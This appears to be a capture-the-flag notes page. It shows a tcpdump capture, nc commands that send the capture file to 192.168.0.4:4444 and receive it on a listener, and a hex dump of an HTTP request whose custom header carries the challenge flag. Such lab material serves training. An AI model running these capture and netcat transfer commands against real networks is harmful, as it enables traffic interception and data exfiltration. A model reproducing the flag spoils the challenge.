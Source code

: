 

sudo timeout 90 tcpdump -i any -C 500 -w capture_super_long_baby.pcap
nc 192.168.0.4 4444 < ./capture_super_long.pcap
nc -lvnp 4444 > capture_super_long.pcap

0000   00 00 00 01 00 06 42 01 0a 29 e0 01 0a 33 08 00   ......B..)...3..
0010   45 00 01 ba b1 f1 40 00 40 06 68 e4 0a 00 07 72   E.....@.@.h....r
0020   0a 00 02 f7 c1 36 00 50 b3 8e b4 62 6a d1 c5 44   .....6.P...bj..D
0030   80 18 01 f6 06 e5 00 00 01 01 08 0a 91 cd 7b ee   ..............{.
0040   8b bf 71 e4 47 45 54 20 2f 25 2f 2f 68 74 6d 6c   ..q.GET /%//html
0050   2f 70 72 65 73 65 6e 74 61 74 69 6f 6e 2e 68 74   /presentation.ht
0060   6d 6c 20 48 54 54 50 2f 31 2e 31 0d 0a 48 6f 73   ml HTTP/1.1..Hos
0070   74 3a 20 63 75 69 74 65 75 72 2d 73 31 36 2e 65   t: cuiteur-s16.e
0080   74 68 68 61 6b 0d 0a 55 73 65 72 2d 41 67 65 6e   thhak..User-Agen
0090   74 3a 20 4d 6f 7a 69 6c 6c 61 2f 35 2e 30 20 28   t: Mozilla/5.0 (
00a0   58 31 31 3b 20 4c 69 6e 75 78 20 78 38 36 5f 36   X11; Linux x86_6
00b0   34 3b 20 72 76 3a 32 36 2e 30 29 20 47 65 63 6b   4; rv:26.0) Geck
00c0   6f 2f 32 30 31 30 30 31 30 31 20 46 69 72 65 66   o/20100101 Firef
00d0   6f 78 2f 32 36 2e 30 0d 0a 41 63 63 65 70 74 3a   ox/26.0..Accept:
00e0   20 74 65 78 74 2f 68 74 6d 6c 2c 61 70 70 6c 69    text/html,appli
00f0   63 61 74 69 6f 6e 2f 78 68 74 6d 6c 2b 78 6d 6c   cation/xhtml+xml
0100   2c 61 70 70 6c 69 63 61 74 69 6f 6e 2f 78 6d 6c   ,application/xml
0110   3b 71 3d 30 2e 39 2c 2a 2f 2a 3b 71 3d 30 2e 38   ;q=0.9,*/*;q=0.8
0120   0d 0a 41 63 63 65 70 74 2d 4c 61 6e 67 75 61 67   ..Accept-Languag
0130   65 3a 20 65 6e 2d 55 53 2c 65 6e 3b 71 3d 30 2e   e: en-US,en;q=0.
0140   35 0d 0a 41 63 63 65 70 74 2d 45 6e 63 6f 64 69   5..Accept-Encodi
0150   6e 67 3a 20 67 7a 69 70 2c 20 64 65 66 6c 61 74   ng: gzip, deflat
0160   65 0d 0a 58 2d 45 74 68 68 61 6b 2d 46 6c 61 67   e..X-Ethhak-Flag
0170   2d 43 6f 6e 74 65 6e 74 3a 20 66 6c 61 67 7b 31   -Content: flag{1
0180   34 63 65 31 38 30 37 37 34 32 61 31 38 36 66 32   4ce1807742a186f2
0190   62 61 34 32 35 63 33 65 36 37 32 63 39 36 32 30   ba425c3e672c9620
01a0   34 31 34 31 65 62 61 32 34 35 35 37 62 7d 0d 0a   4141eba24557b}..
01b0   43 6f 6e 6e 65 63 74 69 6f 6e 3a 20 6b 65 65 70   Connection: keep
01c0   2d 61 6c 69 76 65 0d 0a 0d 0a                     -alive....



X-Ethhak-Flag-Content: flag{14ce1807742a186f2ba425c3e672c96204141eba24557b}
